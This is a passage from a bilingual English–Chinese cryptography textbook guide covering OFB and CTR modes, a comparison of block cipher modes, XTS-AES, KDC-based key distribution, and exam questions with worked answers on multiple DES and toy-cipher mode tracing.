- A lost or inserted bit shifts the keystream against the ciphertext. All later data are ruined until a new nonce is used.丢失或插入一位，会使密钥流与密文错位。在使用新的一次性随机数之前，之后的全部数据都会被破坏。
- The keystream can be precomputed, but it is generated serially. There is no parallelism and no random access.密钥流可以预先计算，但它是串行生成的。因此没有并行性，也没有随机访问。
- OFB is malleable（可篡改的）: flipping a ciphertext bit flips the same plaintext bit. An attacker can make controlled changes, even to a checksum, and the change goes unnoticed.OFB 是可篡改的：翻转一个密文位，就会翻转同一个明文位。攻击者可以做出可控的修改，即使是对校验和的修改，这种改动也不会被发现。
Step 2: counter (CTR) mode第 2 步：计数器（CTR）模式
In words: CTR = encrypt the numbers 1, 2, 3, … as counters to make a keystream, and XOR it with the data.用文字表述：CTR = 把数字 1、2、3……当作计数器加密，生成密钥流，再与数据异或。
Counter (CTR) mode（计数器模式）encrypts a sequence of distinct counter blocks \(T_1,\dots,T_N\) and XORs the results with the data. There is no chaining. The first counter \(T_1\) is an initial value. Each following counter is the previous one plus 1, modulo \(2^b\).计数器（CTR）模式对一串互不相同的计数器分组 \(T_1,\dots,T_N\) 进行加密，并把结果与数据异或。这里没有链接。第一个计数器 \(T_1\) 是初始值。之后每个计数器都是前一个加 1，模 \(2^b\)。


All counter values must be distinct across all messages under one key, for example by continuing the count from one message to the next. If a counter value repeats and one plaintext block is known, the keystream block is revealed. So is every other plaintext block with that counter.同一把密钥下，所有消息的计数器值都必须互不相同，例如让计数从一条消息延续到下一条。如果某个计数器值重复，而且其中一个明文分组已知，那么这个密钥流分组就会被泄露。使用这同一计数器的其他明文分组也同样暴露。
Advantages of CTR (six entries):CTR 的六项优点：
- Hardware efficiency. Blocks are encrypted in parallel, so throughput is limited only by the available parallelism. A chaining mode must finish one block before it starts the next.硬件效率。 各分组可以并行加密，因此吞吐量只受可用并行度的限制。链接模式则必须先完成一个分组，才能开始下一个。
- Software efficiency. Processors with parallel features, such as pipelining and several instructions per clock cycle, can be used fully.软件效率。 具有并行特性的处理器（例如流水线以及每个时钟周期执行多条指令）可以被充分利用。
- Preprocessing. Keystream blocks can be computed before the data arrive. Only XORs remain.预处理。 密钥流分组可以在数据到达之前算好，之后只剩异或运算。
- Random access. Block \(i\) can be processed without blocks \(1,\dots,i-1\).随机访问。 分组 \(i\) 可以在不处理分组 \(1,\dots,i-1\) 的情况下单独处理。
- Provable security. CTR is at least as secure as the other modes.可证明安全性。 CTR 至少与其他模式一样安全。
- Simplicity. Only the encryption algorithm is needed, not decryption or its key schedule. This matters for AES.简单性。 只需要加密算法，不需要解密算法及其密钥编排。这对 AES 很重要。
Practice练习
Q1. (Compare) List the advantages of CTR over CBC in software, in hardware and for decryption.Q1.（比较）列出 CTR 相对于 CBC 在软件、硬件以及解密方面的优势。
Answer
Software: independent blocks allow pipelining and SIMD instructions; only the encryption routine is needed, with no decryption key schedule. Hardware: many cipher units can work on different counters at once and keystream blocks can be precomputed, leaving only XORs, whereas CBC encryption needs one full cipher delay per block. Decryption throughput: CBC decryption can also run in parallel, but in CTR the keystream is computed before the ciphertext arrives, so decryption is one XOR per block, and one encryption-only core serves both directions.软件方面：彼此独立的分组允许流水线与 SIMD 指令；只需要加密例程，无需解密密钥调度。硬件方面：多个密码单元可同时处理不同的计数器，且密钥流分组可以预先计算，只剩异或运算；而 CBC 加密每个分组都需要一次完整的密码延迟。解密吞吐量方面：CBC 解密同样可以并行，但在 CTR 中，密钥流在密文到达之前即已算好，因此解密每个分组只需一次异或，并且一个仅含加密功能的内核即可同时服务于两个方向。
Q2. (Explain) In OFB mode a ciphertext bit is corrupted in transit. How does decryption react? What if a bit is lost instead of flipped?Q2.（解释）在 OFB 模式中，某个密文比特在传输过程中被破坏。解密会如何反应？如果丢失的是比特而不是翻转，又会怎样？
Answer
A flipped bit in \(C_j\) flips exactly the same bit of \(P_j\); the keystream does not depend on the ciphertext, so no other bit is affected. A lost or inserted bit shifts the alignment of the keystream against the ciphertext, so all following plaintext is garbage until sender and receiver resynchronize with a new IV. The same holds for CTR (counter alignment).\(C_j\) 中被翻转的比特，恰好只使 \(P_j\) 中的同一比特翻转；密钥流不依赖于密文，因此不会影响其他比特。丢失或插入的比特会使密钥流与密文的对齐错位，于是此后的所有明文都成为乱码，直到发送方与接收方使用新的 IV 重新同步为止。CTR 也是如此（计数器对齐）。
Comparing the Modes ★★★各模式的比较
Goal. Compare the five modes in one table, say what each loads into the input of the block cipher, and choose a mode for a use case.目标。 用一张表比较五种模式，说明每种模式送入分组密码输入端的内容，并为具体用途选择模式。
Step 1: what feeds the cipher第 1 步：什么送入密码
In words: the modes differ in what they put into the block cipher.用文字表述：各模式的区别在于送入分组密码的内容不同。
ECB puts in the plaintext. CBC puts in the plaintext XORed with the last ciphertext. CFB puts in a register of ciphertext. OFB puts in a register of cipher outputs. CTR puts in a counter.ECB 送入明文。CBC 送入明文与上一个密文异或的结果。CFB 送入一个密文寄存器。OFB 送入一个密码输出寄存器。CTR 送入计数器。
Except for ECB, every mode involves feedback. In OFB and CTR the cipher output is independent of the plaintext and the ciphertext, so they behave as stream ciphers.除 ECB 外，所有模式都涉及反馈。在 OFB 和 CTR 中，密码输出与明文和密文都无关，因此它们表现为流密码。


Step 2: the comparison table第 2 步：比较表
| Property属性 | ECB | CBC | CFB | OFB | CTR |
|---|---|---|---|---|---|
| Padding needed需要填充 | yes是 | yes是 | no否 | no否 | no否 |
| Encryption in parallel加密可并行 | yes是 | no否 | no否 | no否 | yes是 |
| Decryption in parallel解密可并行 | yes是 | yes是 | yes是 | no否 | yes是 |
| Random-access decryption解密可随机访问 | yes是 | yes是 | yes是 | no否 | yes是 |
| Needs decryption function \(D\) | yes是 | yes是 | no否 | no否 | no否 |
| Keystream independent of data密钥流与数据无关 | n/a | no否 | no否 | yes是 | yes是 |
| IV or counterIV 或计数器 | none无 | unpredictable IV不可预测的 IV | unpredictable IV不可预测的 IV | nonce一次性随机数 | unique counters唯一的计数器 |
| Bit error in \(C_j\) | \(P_j\) garbled | \(P_j\) garbled, same bit flipped in \(P_{j+1}\)\(P_j\) 被破坏，\(P_{j+1}\) 中同一比特被翻转 | same bit in \(P_j\), next \(b/s\) segments garbled\(P_j\) 中的同一比特，接下来 \(b/s\) 个段被破坏 | same bit in \(P_j\) only | same bit in \(P_j\) only |
| Typical use典型应用 | single values (keys)单个值（密钥） | block-oriented data, authentication面向分组数据的认证 | stream-oriented data, authentication面向流数据的认证 | noisy channels (satellite)有噪信道（卫星） | high speed, random access高速，随机访问 |
All five modes give confidentiality only. Use an authenticated mode such as CCM or GCM when integrity matters (Chapter 12).五种模式都只提供机密性。当需要完整性时，应使用 CCM 或 GCM 等认证模式（第 12 章）。
Step 3: how to choose第 3 步：如何选择
How to do it by hand: ask four questions in this order.手工判断的方法：按以下顺序问四个问题。
- Is the data a single block with no repetition, such as a key? Then ECB is enough.数据是否只有一个分组且没有重复，例如一把密钥？如果是，ECB 就够了。
- Must blocks be processed in parallel or at random? Then use CTR.分组是否必须并行处理或随机访问？如果是，就用 CTR。
- Can bit errors occur on the channel? Then use OFB or CTR, where an error damages one bit.信道上是否可能出现位错误？如果是，就用 OFB 或 CTR，因为在这两种模式中一个错误只破坏一位。
- Must padding be avoided? Then use CFB, OFB or CTR.是否必须避免填充？如果是，就用 CFB、OFB 或 CTR。
Practice练习
Q1. (Trace) A toy 4-bit block cipher \(E\) is given by the table; blocks are hex digits.Q1.（手工演算）玩具 4 比特分组密码 \(E\) 由下表给出；分组以十六进制数字表示。
| \(x\) | 0 | 1 | 2 | 3 | 4 | 5 | 6 | 7 | 8 | 9 | A | B | C | D | E | F |
|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|
| \(E(x)\) | C | 5 | 6 | B | 9 | 0 | A | D | 3 | E | F | 8 | 4 | 7 | 1 | 2 |
Encrypt the plaintext \((3,3,\text{C})\) with \(\mathrm{IV}=9\) in ECB, CBC, CFB (with \(s=b=4\)), OFB and CTR (counters 9, A, B). What do you observe?用 \(\mathrm{IV}=9\) 对明文 \((3,3,\text{C})\) 分别以 ECB、CBC、CFB（取 \(s=b=4\)）、OFB 与 CTR 模式（计数器为 9、A、B）加密。你观察到什么？
Answer
| Mode模式 | Working过程 | Ciphertext密文 |
|---|---|---|
| ECB | \(E(3)=\text{B}\), \(E(3)=\text{B}\), \(E(\text{C})=4\) | (B, B, 4) |
| CBC | \(E(3\oplus9)=E(\text{A})=\text{F}\); \(E(3\oplus\text{F})=E(\text{C})=4\); \(E(\text{C}\oplus4)=E(8)=3\) | (F, 4, 3) |
| CFB | \(O_1=E(9)=\text{E}\), \(C_1=3\oplus\text{E}=\text{D}\); \(O_2=E(\text{D})=7\), \(C_2=3\oplus7=4\); \(O_3=E(4)=9\), \(C_3=\text{C}\oplus9=5\) | (D, 4, 5) |
| OFB | keystream \(E(9),E(\text{E}),E(1)=(\text{E},1,5)\); \(C=(3\oplus\text{E},3\oplus1,\text{C}\oplus5)\) | (D, 2, 9) |
| CTR | keystream \(E(9),E(\text{A}),E(\text{B})=(\text{E},\text{F},8)\); \(C=(3\oplus\text{E},3\oplus\text{F},\text{C}\oplus8)\) | (D, C, 4) |
Only ECB maps the two equal plaintext blocks to equal ciphertext blocks (B, B); in the other modes the two 3s encrypt differently.只有 ECB 将两个相同的明文分组映射为相同的密文分组（B、B）；在其他模式中，两个明文 3 的加密结果各不相同。
Q2. (Choose a mode) Choose a mode and justify it: (a) wrapping a 128-bit session key under another AES key; (b) a satellite link with random bit errors; (c) an encrypted file system that must read single blocks; (d) a hardware link encryptor with parallel pipelines.Q2.（选择模式）为以下每种情形选择一种模式，并说明理由：（a）用另一把 AES 密钥包裹一个 128 比特的会话密钥；（b）存在随机比特错误的卫星链路；（c）必须能够读取单个分组的加密文件系统；（d）具有并行流水线的硬件链路加密器。
Answer
(a) ECB: a single block with no repetition, so no IV is needed. (b) OFB (or CTR): a bit error damages only one bit, and nothing is padded; CBC or CFB would spread errors. (c) CTR: any block can be processed at random. (d) CTR: all blocks are encrypted and decrypted in parallel and the keystream can be precomputed.（a）ECB：只有一个分组且没有重复，因此不需要 IV。（b）OFB（或 CTR）：比特错误只损坏一个比特，且无需填充；CBC 或 CFB 会扩散错误。（c）CTR：任意分组都可以随机处理。（d）CTR：所有分组可并行加密与解密，且密钥流可以预先计算。
XTS-AES for Storage Devices ★用于存储设备的 XTS-AES
XTS-AES (IEEE 1619, approved by NIST in 2010) encrypts data in sector-based storage, where an attacker may read or change the stored ciphertext.XTS-AES（IEEE 1619，2010 年获 NIST 批准）用于按扇区存储的数据加密，在这种存储中，攻击者可能读取或修改已存储的密文。
A tweakable block cipher（可调分组密码）has a public extra input, the tweak（调整值）\(T\), in addition to the key and the plaintext. The same plaintext under the same key gives different ciphertexts for different tweaks. Storage encryption needs the ciphertext to have the plaintext's length and to allow access to any block alone. CTR fails because flipping a ciphertext bit flips the plaintext bit. CBC with the sector number as IV fails because a sector can be moved to another place and still decrypt.可调分组密码除了密钥和明文之外，还有一个公开的额外输入，即调整值 \(T\)。同一把密钥下，相同的明文在不同的调整值下会得到不同的密文。存储加密要求密文与明文等长，并且允许单独访问任何一个分组。CTR 不满足要求，因为翻转一个密文位就会翻转对应的明文位。以扇区号作为 IV 的 CBC 也不满足要求，因为扇区可以被移到别处，仍然能够正常解密。
The index \(j\) acts like a CTR counter inside a sector, and \(i\) like a nonce between sectors. A partial last block of \(s\) bits uses ciphertext stealing（密文窃取）instead of padding, so the ciphertext has exactly the plaintext's length. XTS gives no integrity: a changed block decrypts to unpredictable data, yet the change is not detected and an old sector can be replayed.索引 \(j\) 在扇区内的作用类似于 CTR 的计数器，\(i\) 在扇区之间的作用类似于一次性随机数。对于长 \(s\) 位的不完整最后分组，使用密文窃取代替填充，因此密文与明文长度恰好相同。XTS 不提供完整性：被改动的分组解密后是不可预测的数据，但这种改动检测不出来，而且旧扇区可以被重放。
Practice练习
Q1. (Sector) A 520-byte sector is encrypted with XTS-AES. How are its bytes processed?Q1.（扇区）一个 520 字节的扇区用 XTS-AES 加密，其字节如何处理？
Answer
\(520=32\cdot16+8\): 32 full blocks \(P_0,\dots,P_{31}\) and a partial block \(P_{32}\) of \(s=64\) bits (\(m=32\)). \(P_0,\dots,P_{30}\) are encrypted independently with tweaks \(\alpha^0,\dots,\alpha^{30}\). For the last two blocks: \(XX=\text{Enc}(P_{31},i,31)\), \(C_{32}=\mathrm{MSB}_{64}(XX)\), \(CP=\mathrm{LSB}_{64}(XX)\), \(YY=P_{32}\Vert CP\), \(C_{31}=\text{Enc}(YY,i,32)\). The ciphertext \(C_0,\dots,C_{32}\) is again 520 bytes.\(520=32\cdot16+8\)：32 个完整分组 \(P_0,\dots,P_{31}\) 与一个长 \(s=64\) 比特的不完整分组 \(P_{32}\)（\(m=32\)）。\(P_0,\dots,P_{30}\) 以调整值 \(\alpha^0,\dots,\alpha^{30}\) 各自独立加密。对最后两个分组：\(XX=\text{Enc}(P_{31},i,31)\)，\(C_{32}=\mathrm{MSB}_{64}(XX)\)，\(CP=\mathrm{LSB}_{64}(XX)\)，\(YY=P_{32}\Vert CP\)，\(C_{31}=\text{Enc}(YY,i,32)\)。密文 \(C_0,\dots,C_{32}\) 仍为 520 字节。
Key Distribution ★★密钥分发
Goal. List the four ways of distributing a key, explain session keys, permanent keys and the key distribution center, and count keys.目标。 列出分发密钥的四种方式，解释会话密钥、长期密钥和密钥分发中心，并统计密钥数量。
Step 1: four options第 1 步：四种方案
In words: key distribution = getting a secret key to two parties without anyone else seeing it.用文字表述：密钥分发 = 把一把秘密密钥交给两方，同时不让其他人看到。
Key distribution（密钥分发）is the delivery of a key to two parties without letting others see it. The strength of the whole cryptosystem rests on it. Frequent key changes limit how much data one compromised key exposes. For parties A and B there are four options.密钥分发是把一把密钥交给双方、同时不让他人看到的过程。整个密码系统的强度都依赖于它。频繁更换密钥可以限制一把密钥被攻破后暴露的数据量。对于参与方 A 和 B，有四种方案。
- A selects the key and delivers it to B physically.A 选定密钥，并以物理方式交付给 B。
- A third party selects the key and delivers it physically to A and B.由第三方选定密钥，并以物理方式交付给 A 与 B。
- If A and B recently used a key, one sends the new key encrypted under the old one.若 A 与 B 最近曾使用过某个密钥，则其中一方用旧密钥加密新密钥后发送。
- If A and B each have an encrypted link to a third party C, C delivers the key over these links.若 A 与 B 各自与第三方 C 之间有加密链路，则由 C 通过这些链路交付密钥。
Options 1 and 2 are manual. They are reasonable for link encryption between two devices, but awkward for end-to-end encryption, where a host talks to many others. Option 3 fails badly: if one key is ever captured, all later keys are revealed. Option 4 is preferred for end-to-end encryption.方案 1 和 2 是人工方式。它们适合两台设备之间的链路加密，但不适合端到端加密，因为在端到端加密中，一台主机要和许多其他主机通信。方案 3 很糟糕：只要有一把密钥被截获，之后的所有密钥都会暴露。端到端加密首选方案 4。
Step 2: automatic key distribution with a KDC第 2 步：借助 KDC 的自动密钥分发
In words: a KDC gives every host one long-term key, and hands out a fresh session key for every connection.用文字表述：KDC 为每台主机分配一把长期密钥，并为每个连接分发一把新的会话密钥。
Two kinds of keys form a hierarchy.两类密钥构成一个层次结构。
- A session key protects user data for one logical connection and is destroyed when the connection ends.会话密钥保护一个逻辑连接中的用户数据，连接结束时即销毁。
- A permanent key（长期密钥）is shared between an entity and the key distribution center. It is used only to distribute session keys.长期密钥由一个实体与密钥分发中心共享。它只用于分发会话密钥。
The key distribution center（密钥分发中心, KDC）decides which systems may communicate and issues the one-time session key for each connection. A security service module (SSM) at each host performs the end-to-end encryption and obtains session keys on behalf of the users.密钥分发中心（KDC）决定哪些系统可以通信，并为每个连接发放一次性的会话密钥。每台主机上的安全服务模块（SSM）负责端到端加密，并代表用户获取会话密钥。


How the connection is set up:连接的建立过程如下：
- The host sends a connection-request packet. Its SSM holds the packet.主机发送一个连接请求包，它的 SSM 先把这个包扣住。
- The SSM asks the KDC for permission. This exchange is encrypted under the key shared only by that SSM and the KDC.SSM 向 KDC 请求许可。这次交换使用仅由这个 SSM 与 KDC 共享的密钥加密。
- If the KDC approves, it generates a session key and delivers it to both SSMs, each copy encrypted under that SSM's own permanent key.若 KDC 批准，则生成一个会话密钥并交付给两个 SSM，每份副本都用相应 SSM 自己的长期密钥加密。
- The requesting SSM releases the held packet and the connection is set up. The SSMs encrypt all user data with the session key.请求方 SSM 释放被暂存的报文，连接即告建立。两个 SSM 使用该会话密钥加密全部用户数据。
Public-key encryption offers another way to distribute keys (Chapters 9 and 10).公钥加密提供了另一种分发密钥的方式（见第 9 章和第 10 章）。
Practice练习
Q1. (Explain) Why is option 3 (send the new key under the old key) unsuitable for end-to-end encryption?Q1.（解释）为什么方案 3（用旧密钥加密发送新密钥）不适用于端到端加密？
Answer
The keys form a chain: an attacker who captures one key and has recorded the key transfers can decrypt every later key, and the chain cannot recover by itself. With a KDC each session key is fresh and independent of the earlier ones.密钥之间形成一条链：攻击者只要截获一个密钥，并记录了此后的密钥传输，就能解密之后的每一个密钥，而且这条链本身无法自行恢复。使用 KDC 时，每个会话密钥都是新的，且与之前的密钥互不相关。
Q2. (Analysis) What does the compromise of (a) a session key, (b) one host's permanent key, (c) the KDC expose?Q2.（分析）以下各项被泄露时会暴露什么：（a）一个会话密钥，（b）某台主机的长期密钥，（c）KDC？
Answer
(a) Only the traffic of that one connection. (b) The session keys delivered to that host's SSM, so its connections, and the attacker can impersonate that host to the KDC; other hosts' traffic stays safe. (c) Everything: the KDC knows all permanent keys and creates all session keys, so it is a single point of trust and must be protected.（a）仅暴露该连接的通信内容。（b）暴露交付给该主机 SSM 的会话密钥，因而暴露该主机的全部连接；攻击者还可以向 KDC 冒充该主机；其他主机的通信仍然安全。（c）全部内容：KDC 掌握所有长期密钥并生成所有会话密钥，因此它是单一信任点，必须加以保护。
Terms to recognise ★需要认识的术语
| Term术语 | What to know要知道什么 |
|---|---|
| EDE | Encrypt-decrypt-encrypt order of 3DES; with equal keys it equals single DES.3DES 的加密-解密-加密顺序；三把密钥相等时，它等同于单重 DES。 |
| Merkle–Hellman and van Oorschot–WienerMerkle–Hellman 与 van Oorschot–Wiener | Chosen-plaintext and known-plaintext attacks on two-key 3DES; NIST retires two-key 3DES.针对两密钥 3DES 的选择明文攻击和已知明文攻击；NIST 停用两密钥 3DES。 |
| DESX (key whitening)DESX（密钥白化） | XORs a 64-bit key before and after DES; 184 key bits, but only about \(2^{120}\) search cost.在 DES 前后各与一个 64 位密钥异或；共 184 位密钥，但搜索代价只约为 \(2^{120}\) |
| Padding填充 | Extra bytes that fill the last block; needed in ECB and CBC, not in CFB, OFB and CTR.用来填满最后一个分组的额外字节；ECB 和 CBC 需要，CFB、OFB 和 CTR 不需要。 |
| Nonce一次性随机数（nonce） | A number used once; in OFB it must be unique per message, in CTR every counter value must be unique.只使用一次的数；在 OFB 中，每条消息的一次性随机数必须唯一；在 CTR 中，每个计数器值都必须唯一。 |
| Malleable可篡改的 | An encryption is malleable if a change in the ciphertext causes a controlled change in the plaintext (OFB, CTR).若密文的改动会引起明文的可控改动，这种加密就是可篡改的（OFB、CTR）。 |
| Birthday limit of 64-bit blocks64 位分组的生日界限 | CBC with a 64-bit block repeats ciphertext blocks after about \(2^{32}\) blocks; AES with 128 bits after about \(2^{64}\).分组长为 64 位的 CBC 在约 \(2^{32}\) 个分组后会出现重复的密文分组；128 位分组的 AES 则在约 \(2^{64}\) 个分组后出现。 |
| Tweakable block cipher可调分组密码 | A cipher with a public extra input, the tweak, that changes the ciphertext without a new key.一种带有公开额外输入（调整值）的密码，它无需新密钥就能改变密文。 |
| Ciphertext stealing密文窃取 | In XTS, the last two blocks are mixed so that a partial last block needs no padding.在 XTS 中，最后两个分组相互混合，因此不完整的最后分组不需要填充。 |
| SSM | Security service module at a host; asks the KDC for session keys and encrypts end-to-end.主机上的安全服务模块；向 KDC 请求会话密钥，并进行端到端加密。 |
| Format-preserving encryption (FPE, 保格式加密) | Ciphertext has the plaintext's format, for example a 16-digit card number gives another 16-digit number. FF1 and FF3 use a Feistel structure with AES.密文与明文格式相同，例如一个 16 位卡号会得到另一个 16 位数字。FF1 和 FF3 使用 Feistel 结构，并配合 AES。 |
| Authenticated modes认证模式 | CMAC, CCM and GCM add integrity, which none of the five basic modes gives (Chapter 12).CMAC、CCM 和 GCM 增加了完整性，这是五种基本模式都不提供的（第 12 章）。 |
Exam-style questions考试题型练习
Q1. (Multiple encryption; 14 marks)Q1.（多重加密，14 分）
- (a) Write the equations of double encryption and explain why it does not give 112-bit security for DES. (3 marks)（a）写出双重加密的方程，并解释为什么对 DES 而言它不能提供 112 比特的安全性。（3 分）
- (b) Describe the meet-in-the-middle attack on double DES step by step; give its time, its memory and the number of known pairs needed. (5 marks)（b）逐步描述针对双重 DES 的中间相遇攻击，并给出其时间、存储量以及所需的已知明文对数量。（5 分）
- (c) Write the equations of three-key EDE and explain how an EDE device can interoperate with a single-DES device. (3 marks)（c）写出三密钥 EDE 的方程，并解释 EDE 设备如何与单 DES 设备互操作。（3 分）
- (d) State the effective strength of three-key 3DES and justify it. (3 marks)（d）给出三密钥 3DES 的有效强度，并加以论证。（3 分）
Answer
(a) \(C=E(K_2,E(K_1,P))\) and \(P=D(K_1,D(K_2,C))\). The key space is \(2^{112}\), but the middle value \(X=E(K_1,P)=D(K_2,C)\) can be reached from both ends, so the two keys are searched separately instead of jointly.（a）\(C=E(K_2,E(K_1,P))\) 与 \(P=D(K_1,D(K_2,C))\)。密钥空间为 \(2^{112}\)，但中间值 \(X=E(K_1,P)=D(K_2,C)\) 可以从两端到达，因此两个密钥分别搜索，而不是联合搜索。
(b) Given a known pair \((P,C)\): (1) encrypt \(P\) under all \(2^{56}\) keys \(K_1\) and store \((K_1,X)\) sorted by \(X\); (2) decrypt \(C\) under all \(2^{56}\) keys \(K_2\) and look each result up in the table; (3) test every match on a second pair \((P',C')\). Time \(2\cdot2^{56}=2^{57}\) operations, memory \(2^{56}\) entries. One pair leaves about \(2^{112-64}=2^{48}\) false candidates, a second pair \(2^{-16}\), so two pairs suffice.（b）给定一个已知明文对 \((P,C)\)：（1）用所有 \(2^{56}\) 密钥 \(K_1\) 加密 \(P\)，并将 \((K_1,X)\) 按 \(X\) 排序后存入表中；（2）用所有 \(2^{56}\) 密钥 \(K_2\) 解密 \(C\)，并在表中查找每个结果；（3）用第二个明文对 \((P',C')\) 检验每一个匹配。时间为 \(2\cdot2^{56}=2^{57}\) 次运算，存储为 \(2^{56}\) 个条目。一个明文对会留下约 \(2^{112-64}=2^{48}\) 个伪候选，第二个明文对将其降为 \(2^{-16}\)，因此两个明文对即已足够。
(c) \(C=E(K_3,D(K_2,E(K_1,P)))\) and \(P=D(K_1,E(K_2,D(K_3,C)))\). If all keys are equal (or \(K_2=K_3\)) the inner \(E\) and \(D\) cancel and the device computes single DES.（c）\(C=E(K_3,D(K_2,E(K_1,P)))\) 与 \(P=D(K_1,E(K_2,D(K_3,C)))\)。若所有密钥相等（或 \(K_2=K_3\)），则内层的 \(E\) 与 \(D\) 相互抵消，该设备计算的是单 DES。
(d) 112 bits: enumerate \((K_1,K_2)\) (\(2^{112}\) values) and match the middle value against a table of \(D(K_3,C)\) (\(2^{56}\) entries). The work is about \(2^{112}\), not \(2^{168}\).（d）强度为 112 比特：枚举 \((K_1,K_2)\)（\(2^{112}\) 个值），并将中间值与一张含 \(D(K_3,C)\)（\(2^{56}\) 个条目）的表进行匹配。工作量约为 \(2^{112}\)，而不是 \(2^{168}\)。
Q2. (Modes and error propagation; 15 marks) A toy 4-bit block cipher \(E\) is given by the table (hex digits).Q2.（工作模式与错误传播，15 分）玩具 4 比特分组密码 \(E\) 由下表给出（十六进制数字）。
| \(x\) | 0 | 1 | 2 | 3 | 4 | 5 | 6 | 7 | 8 | 9 | A | B | C | D | E | F |
|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|
| \(E(x)\) | C | 5 | 6 | B | 9 | 0 | A | D | 3 | E | F | 8 | 4 | 7 | 1 | 2 |
